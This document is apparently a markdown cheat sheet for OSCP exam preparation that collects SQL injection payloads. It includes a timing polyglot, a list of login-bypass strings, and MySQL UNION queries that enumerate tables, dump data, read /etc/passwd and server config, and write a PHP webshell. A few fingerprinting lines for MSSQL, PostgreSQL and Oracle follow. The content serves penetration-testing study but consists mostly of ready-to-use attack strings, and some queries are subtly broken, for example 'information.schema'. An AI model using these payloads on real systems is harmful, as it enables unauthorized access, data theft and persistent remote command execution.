 # SQLI

#### Refs
https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/sql-injection/mysql-injection/README.md

#### Main
SQL Injection is a very common attack vector in the `OSCP` exam. You will most likely see atleast one box where it is the intended attack path. I would recommend to anyone that is unfamiliar with `SQL` to learn the language on a basic level first, and then understanding `SQLI` is way easier. With that being said the first thing you want to do is stuff the input fields with common `SQLI` cmds:

### Auth Bypass / SQLI Checker

#### God-Tier One-Liner

```txt
// Shoutout hacktricks and https://labs.detectify.com/ethical-hacking/ultimate-sql-injection-payload/ for this one.

SELECT * FROM some_table WHERE double_quotes = "IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/"
```

#### List of CMDs you could try

```txt
';#---                   // List pulled from 0xsyr0's github.
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```

### SQL Injection

After stuffing the input fields you should either obtain access to the system as admin or the first user in the database. If not, you might've received a success message or something like that telling you that the SQL server accepted your input. Before trying please remember that I am using `'` in this situation at the beginning of every `cmd` but this will change depending on which character worked for you in the previous steps. Lastly, it's important to recognize that each different type of `SQL` db will have its own injection techniques. Next, try these common injections:

#### MySQL

```txt
### Keep in mind, depending on if you are using Union Based Or Regular SQL Injection, you need to change the commands from UNION ALL SELECT 1,2,<CMD> to SELECT <CMD>

# Get number of columns
' ORDER BY 3--

# Fingerprinting
' UNION SELECT 1, VERSION(), 3--
' UNION SELECT 1,2, DATABASE()--
' UNION SELECT 1,2, USER()--

# Get table name
' UNION ALL SELECT 1,2, GROUP_CONCAT(table_name) FROM information.schema.tables WHERE table.schema="<DATABASE>"--

# Get column name
' UNION ALL SELECT 1,2, GROUP_CONCAT(column_name) FROM information.schema.columns WHERE table.schema="<DATABASE>" AND table.name="<TABLE>"--

# Data dump
' UNION ALL SELECT 1,2,GROUP_CONCAT(CONCAT_WS(':', col1, col2, col3) SEPARATOR ' | ') FROM <TABLE>--

# File read
' SELECT LOAD_FILE('/etc/passwd')--

# Grab web config info
' SELECT LOAD_FILE('/etc/httpd/conf/httpd.conf')--

# AND

' SHOW VARIABLES LIKE 'secure_file_priv'--

# Create webshell
' SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/<FILE>.php"--

# OR

' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/<FILE>.php"--
```

#### MSSQL

```txt
# Fingerprinting
' UNION ALL SELECT 1,@@VERSION,3--
' UNION ALL SELECT 1,SYSTEM_USER,3--
' UNION ALL SELECT 1,DB_NAME(),3--



```

#### PostgreSQL

```txt
' UNION SELECT VERSION(), NULL-- 
```

#### Oracle SQL

```txt
' UNION ALL SELECT banner, NULL FROM v$version-- 
```
